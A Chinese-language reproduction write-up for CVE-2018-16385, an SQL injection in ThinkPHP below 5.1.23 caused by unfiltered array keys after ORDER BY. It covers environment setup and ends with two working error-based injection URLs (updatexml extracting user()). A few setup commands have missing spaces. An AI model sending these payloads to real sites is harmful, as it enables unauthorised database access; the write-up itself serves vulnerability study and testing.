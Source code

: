 （CVE-2018-16385）Thinkphp 5.1.x SQL注入
========================================

一、漏洞简介
------------

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order
by
后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

二、漏洞影响
------------

ThinkPHP \< 5.1.23

三、复现过程
------------

### 环境搭建

#### 1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：

    curl -sS https://getcomposer.org/installer | php

    mv composer.phar/usr/local/bin/composer

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：

    composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

#### 2.然后在浏览器中访问

![](./resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId27.png)

image.png如果出现该页面，则证明安装成功。

#### 3.Demo示例

![](./resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId29.png)

编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

#### 4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![](./resource/(CVE-2018-16385)Thinkphp<5.1.23sql注入漏洞/media/rId31.png)

### Payload构造

根据以上分析，构造payload需要满足以下条件：

1.传入的\$order需要是一个数组。

2.\$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 \` 。

最终Payload构造如下：

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1

或

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=
